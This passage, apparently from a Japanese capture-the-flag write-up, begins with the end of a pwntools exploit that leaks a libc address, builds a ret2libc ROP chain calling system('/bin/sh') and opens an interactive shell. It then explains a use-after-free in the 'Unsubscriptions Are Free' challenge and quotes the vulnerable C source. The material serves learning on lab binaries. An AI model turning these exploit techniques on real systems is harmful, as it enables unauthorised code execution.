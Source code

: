 ```python
r.sendlineafter('\n', payload)
r.recvuntil('\n')
leak = u64(r.recvuntil('\n', True)+'\x00'*2)
dbg('leak')

base = leak - 0x80a30
system = base + 0x4f4e0
binsh = base + 0x1b40fa

payload = ''
payload += 'A'*136
payload += flat(rdi+1, rdi, binsh, system)
r.sendlineafter('\n', payload)

r.interactive()
r.close()
```

# Unsubscriptions Are Free
ソースあり。題名があからさまにuafなのでuafをやる気持ちになります。めちゃくちゃメニューが出て面倒そうに見えますが、実質意味のあるコマンドは2つだけです。`I`はuserポインタが指すところをfreeする、`L`はmalloc(8)してそこに8文字書く。（`S`はwin関数のリークをしますがno pieなので自明）

```c
 13 typedef struct {
 14         uintptr_t (*whatToDo)();
 15         char *username;
 16 } cmd;
 17 
 18 char choice;
 19 cmd *user;
 20 
 21 void hahaexploitgobrrr(){
 22         char buf[FLAG_BUFFER];
 23         FILE *f = fopen("flag.txt","r");
 24         fgets(buf,FLAG_BUFFER,f);
 25         fprintf(stdout,"%s\n",buf);
 26         fflush(stdout);
 27 }

--------------------------------------

 76 void leaveMessage(){
 77         puts("I only read premium member messages but you can ");
 78         puts("try anyways:");
 79         char* msg = (char*)malloc(8);
 80         read(0, msg, 8);
 81 }
 82 
 83 void i(){
 84         char response;
 85         puts("You're leaving already(Y/N)?");
 86         scanf(" %c", &response);
 87         if(toupper(response)=='Y'){
 88                 puts("Bye!");
 89                 free(user);
 90         }else{
 91                 puts("Ok. Get premium membership please!");
 92         }
 93 }

--------------------------------------

```